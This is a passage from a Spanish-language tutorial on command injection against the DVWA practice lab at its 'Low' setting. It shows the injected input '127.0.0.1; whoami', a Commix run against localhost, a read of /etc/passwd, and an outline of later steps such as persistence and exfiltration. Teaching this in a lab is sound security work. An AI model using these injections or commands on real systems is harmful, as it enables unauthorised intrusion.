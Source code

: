 #### 2. Activa el nivel de seguridad en **"Low"**.

#### 3. Inyección de comandos en la sección **"Command Injection"**

En el input, pon:

```
127.0.0.1; whoami
```

Verás el resultado del comando inyectado.

#### 4. Explotación con Commix (opcional)

```bash
python3 commix.py -u "http://localhost/vulnerabilities/exec/?ip=127.0.0.1&Submit=Submit"
```

Y si es vulnerable, podrás ejecutar comandos como:

```bash
ls
cat /etc/passwd
```

---

### 🧠 ¿Qué pasa después?

Una vez explotada la vulnerabilidad, las fases siguientes podrían ser:

- **Post-explotación**: Obtener más información del sistema, usuarios, contraseñas.
- **Elevación de privilegios**: Convertirte en administrador/root.
- **Persistencia**: Dejar puertas traseras o crear usuarios ocultos.
- **Movimiento lateral**: Saltar a otros sistemas de la red.
- **Extracción de datos (exfiltración)**: Descargar información sensible.

---

### 🧾 Resumen

| Paso                                   | Descripción               |
| -------------------------------------- | ------------------------- |
| 1️⃣ Identificar vulnerabilidad          | Inyección, RCE, etc.      |
| 2️⃣ Verificar que se pueda explotar     | Manual o con herramientas |
| 3️⃣ Ejecutar código o comando malicioso | Gana acceso               |
| 4️⃣ Obtener control o más información   | Shell, datos, privilegios |
| 5️⃣ Documentar todo                     | Para el reporte final     |

---

### ✅ Conclusión
